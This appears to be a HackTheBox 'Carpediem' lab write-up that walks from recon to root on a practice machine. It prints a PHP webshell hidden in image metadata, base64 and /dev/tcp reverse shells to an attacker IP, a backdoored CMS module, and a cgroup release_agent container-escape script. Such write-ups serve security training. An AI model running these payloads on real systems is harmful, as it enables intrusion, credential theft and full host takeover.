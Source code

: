 ```yaml
---
title: HTB | Carpediem
author: Zeropio
date: 2022-09-01
categories: [Pentesting, HackTheBox]
tags: [htb, linux, hard, machines]
permalink: /pentesting/htb/machines/carpediem
---
```


![HTB Img](/assets/img/hackthebox/card/Carpediem.png)

# Fingerprint

The nmap gives us:

```
Nmap scan report for 10.10.11.167
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:21:76:f7:2d:c5:f0:4e:e0:a8:df:b4:d9:5e:45:26 (RSA)
|   256 b1:6d:e3:fa:da:10:b9:7b:9e:57:53:5c:5b:b7:60:06 (ECDSA)
|_  256 6a:16:96:d8:05:29:d5:90:bf:6b:2a:09:32:dc:36:4f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Comming Soon
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can fuzz for vhosts:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://carpediem.htb/' -H 'Host: FUZZ.carpediem.htb' -fs 2875

	portal                  [Status: 200, Size: 31090, Words: 7687, Lines: 463, Duration: 101ms]
```

We have a login there and a register account option. Created and account and login as it.

# Foothold

In the mangament account part we can see an ID in the headers:

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled.png)

The **login_type=2**, if we changed it to 1 and forward the request we will be modifying the admin account. We have access now to the admin panel:

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled%201.png)

Moving through the page we can modify the account once again, this time adding a profile image. We can try uploading a reverse shell with the following content:

```console
zero@pio$ exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); ?>' dog.jpeg
```

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled%202.png)

Change the name in burp before sending, and now we have RCE:

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled%203.png)

We will use a url encoded of a base64 shell to execute a reverse shell:

```
echo%20%22L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQ0LzQ0MyAwPiYx%22%20%7C%20base64%20%2Dd%20%7C%20bash
```

We now get access to the system, but we noticed we are in a container.

```console
www-data@3c371615b7aa:/var/www/html/portal/uploads$ hostname
	3c371615b7aa
www-data@3c371615b7aa:/var/www/html/portal/uploads$ whoami
	www-data
```

# Privilege Escalation

We have access of a MongoDB from the container. With chisel we can make a connection:

```console
zero@pio$ chisel server --reverse --port 8000
```

```console
www-data@3c371615b7aa:/dev/shm$ ./chisel client 10.10.16.44:8000 R:8118:172.17.0.5:8118 R:27017:172.17.0.3:27017 &
```

We can see that is a **trudesk**. Use a [bcrypt password](https://icyberchef.com/#recipe=Bcrypt(10)&input=cGFzc3dvcmQ) and update the password. 

```console
zero@pio$ mongosh mongodb://127.0.0.1:27017

test> show databases
	admin     135 kB
	config    111 kB
	local    90.1 kB
	trudesk  1.12 MB
test> use trudesk
trudesk> db.accounts.update( {"_id": ObjectId("623c8b20855cc5001a8ba13c")}, {$set: {"password": "$2b$10$zX4LTPwe7bEjhvQ.lbNgNuttsUcvcstL6SHHhZhIXouFObHXxYqey"}});
```

We can login with the **admin:password** credentials. We see some tickets, from there we got the credentials **9560:2022**. They ask to call to **62**. After making the call in the web we can listen to the new credentials: **hflaccus:AuRj4pxq9qPk**. With SSH we can use them.

LinPEAS told us we can intercept traffic, so we start a `tcpdump`. 

```console
hflaccus@carpediem:~$ tcpdump -i any port 443 -w traffic_output
```

Get also the ssl key in `/etc/ssl/certs/backdrop.carpediem.htb.key`{: .filepath}. Checking the outpuf file in Wireshark we can find the following credentials: **jpardella**:**tGPN6AmJDZwYWdhY**.

Open a port forwading:

```console
zero@pio$ sshpass -p AuRj4pxq9qPk ssh hflaccus@10.10.11.167 -L 8002:127.0.0.1:8002
```

We can see a login in **https://127.0.0.1:8002**. We found a login, the previous credentials will work there.

It is using the **Backdrop CMS**, we found a vulnerability in this [Github](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS). Modify the script to make a reverse shell instead of a webshell:

```console
zero@pio$ tar -xf reference.tar
zero@pio$ cat reference/shell.php
	<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'");?>
zero@pio$ tar -cvf reference.tar reference &>/dev/null
```

Import the new “module” in the **Functionality** page, through a manual installation. Now open a netcat and call the module in `https://localhost:8002/modules/reference/shell.php`.

```console
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ whoami
	www-data
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ hostname -i
	172.17.0.2
```

We are in a new container. We found the following script:

```console
www-data@90c7f522b842:/opt$ cat heartbeat.sh
	#!/bin/bash
	#Run a site availability check every 10 seconds via cron
	checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
	if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
	        exit
	fi
	status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
	grep "Welcome to backdrop.carpediem.htb!" "$status"
	if [[ "$?" != 0 ]]; then
	        #something went wrong.  restoring from backup.
	        cp /root/index.php /var/www/html/backdrop/index.php
	fi
```

We can change the index.php in a reverse shell:

```console
zero@pio$ cat index.php          
	<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'");?>
zero@pio$ $ python3 -m http.server 80
```

Replace the file:

```console
ww-data@90c7f522b842:/var/www/html/backdrop$ rm -f index.php
www-data@90c7f522b842:/var/www/html/backdrop$ wget http://10.10.16.44/index.php
```

And we will get a root connection:

```console
root@90c7f522b842:/var/www/html/backdrop# whoami
	root
```

This [article](https://www.notion.so/Carpediem-691b061d8e164581b4ce5bf8b121fb3c) talk about how to escape from a privileged docker container. Create the following script and send it to the target:

```bash
mkdir /dev/shm/privesc
mount -t cgroup -o rdma cgroup /dev/shm/privesc
mkdir /dev/shm/privesc/x
echo 1 > /dev/shm/privesc/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /dev/shm/privesc/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'" >> /cmd
chmod a+x /cmd
bash -c "echo \$\$ > /dev/shm/privesc/x/cgroup.procs"
```

Execute the script in the container with a netcat open:

```console
root@90c7f522b842:~# unshare -UrmC bash
wget http://10.10.16.44/script.sh
chmod +x script.sh
./script.sh
```

```console
	zero@pio$ nc -lvnp 443
	listening on [any] 443 ...
	connect to [10.10.16.44] from (UNKNOWN) [10.10.11.167] 59580

	root@carpediem:/# whoami
		root
```
